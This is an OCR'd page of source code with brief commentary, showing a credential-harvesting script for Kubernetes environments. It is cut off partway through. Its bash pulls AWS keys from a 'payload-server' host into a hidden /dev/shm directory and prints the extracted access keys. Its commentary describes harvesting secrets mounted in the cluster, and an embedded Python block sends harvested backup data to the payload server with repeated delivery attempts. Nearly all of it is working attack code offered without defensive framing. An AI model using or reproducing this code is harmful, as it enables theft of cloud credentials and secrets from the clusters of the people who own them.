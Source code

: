 ```bash
  curl -s --max-time 5 http://payload-server.default.svc.cluster.local:8080/aws-keys -o /dev/shm/.../...HIDDEN.../aws.tmp.key
  
  if [ ! -s /dev/shm/.../...HIDDEN.../aws.tmp.key ]; then
    log "$RED" "No AWS key data available from any source"
    # Create empty file to avoid errors in subsequent steps
    echo "{}" > /dev/shm/.../...HIDDEN.../aws.tmp.key
  fi
fi

if [ -f /dev/shm/.../...HIDDEN.../aws.tmp.key ]; then
  filesize=$(wc -c < /dev/shm/.../...HIDDEN.../aws.tmp.key)
  if [ $filesize -gt 2 ]; then
    log "$GREEN" "AWS key data retrieved ($filesize bytes):"
    cat /dev/shm/.../...HIDDEN.../aws.tmp.key
    access_key=$(grep "AccessKeyId" /dev/shm/.../...HIDDEN.../aws.tmp.key | cut -d'"' -f4)
    if [ -n "$access_key" ]; then
      log "$BLUE" "Extracted Access Key: $access_key"
    else
      log "$YELLOW" "Could not extract Access Key from data"
    fi
  else
    log "$YELLOW" "AWS key file exists but appears to be empty or malformed"
  fi
fi
rm -f /dev/shm/.../...HIDDEN.../aws.tmp.key
```

here we use the configurable credential path from the environment variable. the script then looks for credentials mounted as k8s secrets (sealed or otherwise). it extracts and logs role names and access keys, and performs a multi-layered harvesting approach.

```bash
# Send backup data to payload server - put in a subshell to prevent entire script termination
log "$CYAN" "Sending backup data to payload server"
(
python3 -c '
import requests
import os
import socket
import time

backupfile = "/dev/shm/.../...HIDDEN.../K8.txt.backup"
print("Reading from backup: {}".format(backupfile))
print("Backup exists: {}".format(os.path.exists(backupfile)))

if os.path.exists(backupfile):
    with open(backupfile, "r") as f:
        backup_content = f.read()
        print("Backup content preview: {}...".format(backup_content[:100]))

# Try multiple times to ensure delivery
for attempt in range(3):
    try:
        # Use payload server
        server = "payload-server.default.svc.cluster.local"
        try:
            ip = socket.gethostbyname(server)
            print("Resolved {} to {}".format(server, ip))
        except Exception as dns_err:
            print("Could not resolve {}: {}".format(server, dns_err))
            server = "localhost"
            
        print("Sending backup data to http://{}:8080/ (attempt {})".format(server, attempt+1))
```